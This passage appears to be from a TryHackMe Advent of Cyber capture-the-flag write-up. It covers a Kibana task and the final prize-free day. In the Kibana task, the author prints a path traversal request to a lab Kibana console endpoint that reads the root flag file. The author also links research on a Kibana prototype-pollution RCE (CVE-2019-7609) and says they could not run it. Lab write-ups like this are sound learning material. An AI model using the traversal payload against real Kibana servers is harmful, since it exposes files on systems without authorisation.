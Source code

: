 ```
10.10.5.205:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../root.txt
```

When to go to that location web site will hang and did not load something and keep searching but when you go the port 8000 log files they are host there you can find root flag but you have to use you eagle eye there because there are so many things 

![Task29_flag](https://user-images.githubusercontent.com/85181215/136558094-fedf6d41-8d0a-455c-b92e-0d69424017b4.png)

There is a RCE flaw also and got the following URL there they show some prof of concept also but could not able to execute that because there we don't have `convas` menu i think this is for different version

```
https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
```

## Task 30  [Day 25] Challenge-less

To everyone who participated in our Advent of Cyber event, we hope you learnt something new! There is no challenge on the last day, instead we ask you complete a room on TryHackMe and enjoy some time off on Christmas day!

  

We will pick the daily prize winners and the main winners on Sunday, so there is still time to complete challenges and enter yourself!





